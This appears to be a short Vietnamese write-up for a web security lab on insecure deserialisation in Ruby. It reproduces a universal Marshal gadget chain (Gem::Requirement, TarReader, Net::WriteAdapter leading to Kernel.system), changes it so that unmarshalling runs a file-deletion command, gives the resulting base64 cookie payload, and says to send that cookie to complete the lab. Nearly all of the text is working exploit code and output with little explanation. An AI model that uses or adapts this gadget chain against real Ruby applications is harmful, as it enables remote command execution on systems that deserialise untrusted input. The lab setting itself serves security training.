 dùng `Universal Deserialisation Gadget for Ruby 2.x-3.x` 

```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
puts Marshal.load(payload)
```

Mã nguồn mẫu đang được sử dụng. Tiến hành thay thôi thêm payload vào sửa lại

```
# Nạp các class cần thiết
Gem::SpecFetcher
Gem::Installer

# 1. Tạo adapter trỏ vào Kernel.system
wa = Net::WriteAdapter.new(Kernel, :system)

# 2. Gán lệnh muốn thực thi vào @git_set
rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa)
rs.instance_variable_set('@git_set', 'rm /home/carlos/morale.txt')

# 3. Tạo entry giả lập IO stream
entry = Gem::Package::TarReader::Entry.allocate
entry.instance_variable_set('@read', 0)
entry.instance_variable_set('@header', 'aaa')

io = Net::BufferedIO.allocate
io.instance_variable_set('@io', entry)
io.instance_variable_set('@debug_output', rs)

tr = Gem::Package::TarReader.allocate
tr.instance_variable_set('@io', io)

# 4. Gói vào Gem::Requirement để kích hoạt khi Marshal.load
req = Gem::Requirement.allocate
req.instance_variable_set('@requirements', tr)

# 5. Serialize bằng Marshal và in ra Base64
payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, req])
puts [payload].pack('m0')
```

Khi này sẽ có được cookie chứ payload 
```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ==
```



Thay cookie vào send và hoàn thành bài lab.




# __